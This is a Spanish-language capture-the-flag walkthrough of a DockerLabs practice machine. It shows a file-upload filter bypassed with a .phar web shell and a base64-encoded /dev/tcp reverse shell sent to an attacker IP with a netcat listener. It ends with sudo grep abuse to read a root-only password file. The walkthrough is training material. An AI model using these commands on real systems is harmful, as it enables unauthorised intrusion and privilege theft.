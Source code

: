 # Maquina DockerLabs - DockerLabs.es

![alt text](ImagenesMaquinaDockerLabs/image.png)

Verificar que la maquina este desplegada correctamente

![alt text](ImagenesMaquinaDockerLabs/image-1.png)

Realizamos un ping a la máquina para verificar la comunicación y confirmamos que la conexión es exitosa.

![alt text](ImagenesMaquinaDockerLabs/image-2.png)

A continuación, realizamos un escaneo de la IP utilizando Nmap.

![alt text](ImagenesMaquinaDockerLabs/image-3.png)

Observamos que el puerto 80 esta abierto. Ahora realizamos un escaneo adicional para detectar, enumerar servicios y versiones.

![alt text](ImagenesMaquinaDockerLabs/image-4.png)

En este caso, nos centraremos en el puerto 80 el unico que esta abierto y ejecuta un servicio HTTP mediante Apache httpd 2.4.58. Accederemos a la página web alojada en esta máquina utilizando un navegador.

![alt text](ImagenesMaquinaDockerLabs/image-5.png)

Al aplicar Fuzzing para descubrir rutas y archivos con extensiones como .php, .html, entre otras, obtendremos los siguientes resultados:

![alt text](ImagenesMaquinaDockerLabs/image-6.png)

Al acceder al archivo machine.php, encontraremos una página web que permite la subida de archivos.

![alt text](ImagenesMaquinaDockerLabs/image-7.png)

Realizaremos una prueba subiendo una foto para observar qué sucede.

![alt text](ImagenesMaquinaDockerLabs/image-8.png)

Observamos que solo se permiten archivos con la extensión .zip. Realizaremos una prueba subiendo un archivo .zip y confirmamos que la carga se completa correctamente.

![alt text](ImagenesMaquinaDockerLabs/image-9.png)

Recuerda que también encontramos la ruta /uploads. Al visitarla, observamos que aquí se almacenan los archivos .zip que hemos subido.

![alt text](ImagenesMaquinaDockerLabs/image-10.png)

Con base en lo anterior, intentaremos subir un archivo que contenga código PHP para ejecutar comandos a nivel del sistema.

Después de varios intentos para eludir la validación, descubrí que un archivo con la extensión .phar podría ser una solución viable. Un archivo .phar es similar a un archivo .zip o .tar, pero está diseñado específicamente para contener archivos PHP y otros recursos relacionados.

Creé un archivo llamado pwned.phar que incluye el siguiente código, lo cual nos permite ejecutar comandos del sistema al enviar un parámetro llamado cmd, en el cual inyectamos los comandos que deseamos ejecutar.

![alt text](ImagenesMaquinaDockerLabs/image-11.png)

Subiremos el archivo .phar y confirmaremos que se ha cargado correctamente.

![alt text](ImagenesMaquinaDockerLabs/image-12.png)

Ahora, si cargamos el archivo .phar y enviamos comandos a través del parámetro cmd, podremos ejecutar dichos comandos con éxito.

![alt text](ImagenesMaquinaDockerLabs/image-13.png)

Ahora, necesitamos enviar una shell inversa a nuestra máquina atacante.

Primero, convertimos la shell inversa a Base64 utilizando el siguiente comando:

`echo "sh -i >& /dev/tcp/172.16.1.131/4444 0>&1" | base64`

Esto nos dará el siguiente resultado: `c2ggLWkgPiYgL2Rldi90Y3AvMTcyLjE2LjEuMTMxLzQ0NDQgMD4mMQo=`.

![alt text](ImagenesMaquinaDockerLabs/image-14.png)

En nuestra máquina atacante, nos ponemos a la escucha con Netcat en el puerto 4444 utilizando el siguiente comando:

`nc -nvlp 4444`

![alt text](ImagenesMaquinaDockerLabs/image-15.png)

Luego, en el parámetro cmd, enviamos el siguiente comando:

`echo "c2ggLWkgPiYgL2Rldi90Y3AvMTcyLjE2LjEuMTMxLzQ0NDQgMD4mMQo=" | base64 -d | bash`

Al ejecutar esto, obtendremos una shell inversa en nuestra máquina atacante. Así, estaremos dentro del sistema.

## Tratamiento de la TTY

**Para trabajar de manera mas cómoda haremos lo siguiente:**
Una vez estemos dentro ejecutamos el siguiente comando: `script /dev/null -c bash`

Luego presionamos: `Ctrl + Z` para suspender el proceso

A continuación, escribimos: `stty raw -echo; fg`

Despues ingresamos: `reset`

Cuando se nos pregunte: "Terminal type?" Ingresamos `xterm`.

Finalmente, exportamos las siguientes variables de entorno: `export TERM=xterm` `export SHELL=bash`

Y listo!

## Escalada de Privilegios

Al ejecutar `sudo -l`, veremos que podemos ejecutar los binarios `/usr/bin/cut` y `/usr/bin/grep` como usuario root sin necesidad de proporcionar una contraseña.

![alt text](ImagenesMaquinaDockerLabs/image-16.png)

Si realizamos una búsqueda de archivos .txt en el sistema utilizando el comando:

`find / *.txt 2>/dev/null`

veremos que hay un archivo en /opt/ llamado nota.txt.

![alt text](ImagenesMaquinaDockerLabs/image-17.png)

Al revisar el contenido de ese archivo, encontramos el siguiente mensaje:

Protege la clave de root, se encuentra en su directorio `/root/clave.txt`. Menos mal que nadie tiene permisos para acceder a ella.

![alt text](ImagenesMaquinaDockerLabs/image-18.png)

Al intentar leer el archivo `/root/clave.txt`, descubrimos que no tenemos permisos para acceder a él.

![alt text](ImagenesMaquinaDockerLabs/image-19.png)

Sin embargo, recordemos que tenemos permisos para ejecutar los binarios grep y cut. Aprovecharemos estos permisos para leer el archivo `/root/clave.txt` de la siguiente manera:

`sudo /usr/bin/grep '' /root/clave.txt`

![alt text](ImagenesMaquinaDockerLabs/image-20.png)

Al leer el archivo, encontramos una posible contraseña: `dockerlabsmolamogollon123`.

Al intentar cambiar al usuario root y utilizar esta contraseña, logramos acceder con éxito y ahora somos root.

![alt text](ImagenesMaquinaDockerLabs/image-21.png)
